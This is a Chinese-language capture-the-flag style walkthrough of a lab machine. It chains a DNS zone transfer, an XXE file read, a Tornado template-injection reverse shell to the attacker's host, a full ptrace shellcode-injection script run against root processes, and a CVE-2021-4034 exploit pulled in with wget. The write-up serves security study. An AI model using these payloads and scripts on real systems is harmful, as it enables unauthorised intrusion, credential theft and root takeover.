










https://blog.csdn.net/weixin_45691672/article/details/131247278

# 0x01 主机发现

## nmap扫描

nmap -T4 -v 192.168.8.1/24

nmap -T4 -A -v -p- -sV 192.168.8.145,发现开了三个端口

```plain
53：DNS服务
80：http服务
9999：http tornado服务(tornado是python的web框架)
```



# 0x02 漏洞发掘与利用

## 80端口服务攻击

访问80端口，一个web服务，四处查看，在网页源码找到提示：



GET传入page_no参数来查看不同页面，于是用burp遍历参数，发现page_no=21时，有不同：


提到新域名：hackers.blackhat.local,尝试访问，空白，于是绑定hosts 

192.168.8.145 hackers.blackhat.local

windows中，hosts文件在：C:\Windows\System32\drivers\etc

Linux中，hosts文件在：/etc/hosts

再次访问，即可，没发现什么新东西，看提示疯狂提示DIG,于是想到dig命令

## 53端口（DNS服务器配置错误-区域传送漏洞）

**DNS区域传输-AXFR**

DNS区域传送（DNS zone transfer）指的是一台备用服务器使用来自主服务器的数据刷新自己的域（zone）数据库。这为运行中的DNS服务提供了一定的冗余度，其目的是为了防止主的域名服务器因意外故障变得不可用时影响到整个域名的解析。一般来说，DNS区域传送操作只在网络里真的有备用域名DNS服务器时才有必要用到，但许多DNS服务器却被错误地配置成只要有客户端发出请求，就会向对方提供一个zone数据库的详细信息，所以说允许不受信任的客户端执行DNS区域传送（zone transfer）操作是后果最为严重的错误配置之一。

**区域传送漏洞的危害**：黑客可以快速的判定出某个特定zone的所有主机，收集域信息，选择攻击目标，找出未使用的IP地址，黑客可以绕过基于网络的访问控制。


猜测可能存在DNS服务配置不当的问题，(**正常情况下应该只能在同一区域不同DNS服务器之间同步数据**  )使用dig(Linux)、nslookup(windows)命令来同步DNS服务器信息（前面服务探测，发现192.168.8.145:53开启DNS服务），用法：

dig axfr @192.168.3.225 blackhat.local

nslookup -d blackhat.local 192.168.8.145




捕获到域可域名：hackerkid.blackhat.local,一样绑定到hosts中，访问


## XXE漏洞利用

查看源码，发现用到了xml文档传输


猜测出可能存在XXE,先随便填写，抓包看看

发现email元素被解析返回了，因此这里可能存在XXE漏洞，且回显就在email标签中

因此,针对回显点，我们构造攻击payload,尝试读取/etc/passwd

创建内部实体fuck（功能是读取/etc/passwd），**并在回显点email标签进行引用,** **成功读取到文件**


 在返回值中我们发现只有root和saket用户具备登陆bash的权限

再尝试读取一些敏感文件（尽量用filter过滤器转码读取，否则可能由于解析等原因，导致读取失败），找找有没有敏感信息 关于bash的敏感文件：[Linux系统下.bashrc文件的介绍_linux中的.bashrc_Is Fang的博客-CSDN博客](https://blog.csdn.net/NRWHF/article/details/130173617)

```plain
php://filter/convert.base64-encode/resource=/home/saket/.bashrc    saket用户的.bashrc文件
```

在.bashrc文件中读取到一个账户密码：admin/Saket!#$%@!!

拿到账户密码，寻找登陆点，开始发现的9999端口Tonado服务，恰好就是一个登陆点（看到Tonado别忘了反应SSTI模板注入）

访问拿去登录：


很不幸登陆失败，提示数据错误，（1），难道是登陆表单提交的第一个参数admin错了？再关注到密码中有关键字Saket，于是拿来做用户名关键字生成字典试试爆破

于是尝试出正确用户名：saket  成功登录

## tonado-SSTI模板注入漏洞反弹shell

没新思路，解析一下页面提示，怎么知道我是谁........当然是告诉他名字，传参name,username,uname等尝试看看：

?name=fuckman

?username=fuckman

?uname=fuckman

传参?name=fuckman 页面变化，且看到参数被回显，说明有处理，有交互，有交互就有漏洞，前面说到，tonado想到什么？没错，模板注入，直接尝试

确实存在漏洞

反弹shell

 首先在kali上监听端口，并将python反弹shell语句使用encodeURIComponent进行编码

```plain
编码前：{{os.system('bash -c "bash -i >& /dev/tcp/192.168.8.138/4444 0>&1"')}}
 
编码后：%7B%25%20import%20os%20%25%7D%7B%7Bos.system('bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.8.138%2F4444%200%3E%261%22')%7D%7D
```

成功进入系统，拿到普通shell

# 0x03权限提升

## Capabilitie提权

[python Capabilities cap_sys_ptrace+ep提权 - 隐念笎 - 博客园](https://www.cnblogs.com/zlgxzswjy/p/15185591.html)

[Linux提权之：利用capabilities提权 - f_carey - 博客园](https://www.cnblogs.com/f-carey/p/16026088.html)

Capabilities机制是在Linux内核2.2之后引入的，原理很简单，就是将之前与超级用户root（UID=0）关联的特权细分为不同的功能组，Capabilites作为线程（Linux并不真正区分进程和线程）的属性存在，每个功能组都可以独立启用和禁用。其本质上就是将内核调用分门别类，具有相似功能的内核调用被分到同一组中。 这样一来，权限检查的过程就变成了：在执行特权操作时，如果线程的有效身份不是root，就去检查其是否具有该特权操作所对应的capabilities，并以此为依据，决定是否可以执行特权操作。 如果Capabilities设置不正确，就会让攻击者有机可乘，实现权限提升。



### **1、使用如下命令发现具有Capabilities特殊操作权限的程序**

/usr/sbin/getcap -r / 2>/dev/null      #-r 递归查询



### 2、建立攻击脚本(https://github.com/0x00pf/0x00sec_code/blob/master/mem_inject/infect.c )

通过上图我们发现python具备cap_sys_ptrace+ep 能力，所以我们可以对其进行利用然后进行提权。这里需要用到一个提权脚本，这个脚本的作用就是对root权限的进程注入python类型shellcode，利用pythono具备的cap_sys_ptrace+ep 能力实现权限提升，该脚本如果执行成功，会在靶机的本地监听5600端口，我们也可以修改shellcode部分让其监听其他端口。

在kali上编辑以下代码，并起名为exp.py，打开http服务，并利用靶机进行下载

```plain
# inject.py# The C program provided at the GitHub Link given below can be used as a reference for writing the python script.
# GitHub Link: https://github.com/0x00pf/0x00sec_code/blob/master/mem_inject/infect.c 

import ctypes
import sys
import struct

# Macros defined in <sys/ptrace.h>
# https://code.woboq.org/qt5/include/sys/ptrace.h.html

PTRACE_POKETEXT   = 4
PTRACE_GETREGS    = 12
PTRACE_SETREGS    = 13
PTRACE_ATTACH     = 16
PTRACE_DETACH     = 17

# Structure defined in <sys/user.h>
# https://code.woboq.org/qt5/include/sys/user.h.html#user_regs_struct

class user_regs_struct(ctypes.Structure):
    _fields_ = [
        ("r15", ctypes.c_ulonglong),
        ("r14", ctypes.c_ulonglong),
        ("r13", ctypes.c_ulonglong),
        ("r12", ctypes.c_ulonglong),
        ("rbp", ctypes.c_ulonglong),
        ("rbx", ctypes.c_ulonglong),
        ("r11", ctypes.c_ulonglong),
        ("r10", ctypes.c_ulonglong),
        ("r9", ctypes.c_ulonglong),
        ("r8", ctypes.c_ulonglong),
        ("rax", ctypes.c_ulonglong),
        ("rcx", ctypes.c_ulonglong),
        ("rdx", ctypes.c_ulonglong),
        ("rsi", ctypes.c_ulonglong),
        ("rdi", ctypes.c_ulonglong),
        ("orig_rax", ctypes.c_ulonglong),
        ("rip", ctypes.c_ulonglong),
        ("cs", ctypes.c_ulonglong),
        ("eflags", ctypes.c_ulonglong),
        ("rsp", ctypes.c_ulonglong),
        ("ss", ctypes.c_ulonglong),
        ("fs_base", ctypes.c_ulonglong),
        ("gs_base", ctypes.c_ulonglong),
        ("ds", ctypes.c_ulonglong),
        ("es", ctypes.c_ulonglong),
        ("fs", ctypes.c_ulonglong),
        ("gs", ctypes.c_ulonglong),
    ]

libc = ctypes.CDLL("libc.so.6")

pid=int(sys.argv[1])

# Define argument type and respone type.
libc.ptrace.argtypes = [ctypes.c_uint64, ctypes.c_uint64, ctypes.c_void_p, ctypes.c_void_p]
libc.ptrace.restype = ctypes.c_uint64

# Attach to the process
libc.ptrace(PTRACE_ATTACH, pid, None, None)
registers=user_regs_struct()

# Retrieve the value stored in registers
libc.ptrace(PTRACE_GETREGS, pid, None, ctypes.byref(registers))

print("Instruction Pointer: " + hex(registers.rip))

print("Injecting Shellcode at: " + hex(registers.rip))

# Shell code copied from exploit db.
shellcode="\x48\x31\xc0\x48\x31\xd2\x48\x31\xf6\xff\xc6\x6a\x29\x58\x6a\x02\x5f\x0f\x05\x48\x97\x6a\x02\x66\xc7\x44\x24\x02\x15\xe0\x54\x5e\x52\x6a\x31\x58\x6a\x10\x5a\x0f\x05\x5e\x6a\x32\x58\x0f\x05\x6a\x2b\x58\x0f\x05\x48\x97\x6a\x03\x5e\xff\xce\xb0\x21\x0f\x05\x75\xf8\xf7\xe6\x52\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x8d\x3c\x24\xb0\x3b\x0f\x05"

# Inject the shellcode into the running process byte by byte.
for i in xrange(0,len(shellcode),4):
 
  # Convert the byte to little endian.
  shellcode_byte_int=int(shellcode[i:4+i].encode('hex'),16)
  shellcode_byte_little_endian=struct.pack("<I", shellcode_byte_int).rstrip('\x00').encode('hex')
  shellcode_byte=int(shellcode_byte_little_endian,16)
 
  # Inject the byte.
  libc.ptrace(PTRACE_POKETEXT, pid, ctypes.c_void_p(registers.rip+i),shellcode_byte)

print("Shellcode Injected!!")

# Modify the instuction pointer
registers.rip=registers.rip+2

# Set the registers
libc.ptrace(PTRACE_SETREGS, pid, None, ctypes.byref(registers))

print("Final Instruction Pointer: " + hex(registers.rip))

# Detach from the process.
libc.ptrace(PTRACE_DETACH, pid, None, None)
```

### 3、 因需要root进程进行注入，编写脚本对root进程批量尝试  

 使用ps -aux | grep root获取到root用户权限执行的进程  

python2.7 exp.py 862   //这个不行可以换其他的进程号

netstat -an | grep 5600

批量尝试：

 for i in `ps -ef|grep root|grep -v "grep"|awk '{print $2}'`; do python2.7 exp.py $i; done  

###  4、脚本执行成功，可以看到5600端口正在监听 ，使用nc直接连接即可

nc 192.168.8.145 5600

## **Policykit suid提权（CVE-2021-4034）--通杀2021年之前的linux系统**

解析：[网安 | Linux Polkit 权限提升漏洞（CVE-2021-4034）](https://www.bilibili.com/read/cv22967681/)

利用工具地址：https://github.com/berdav/CVE-2021-4034

**find / -perm -u=s -type f 2>/dev/null   查找suid**



**wget http://192.168.8.138:443/CVE-2021-4034.zip**

**解压执行，root到手**


# 0x04 总结

1. DNS服务配置错误漏洞
2. dig,nslookup工具使用
3. XXE漏洞、SSTI模板注入，不太熟练
4. Capabilitie提权（python、php等都可以）
5. CVE-2021-4034linux提权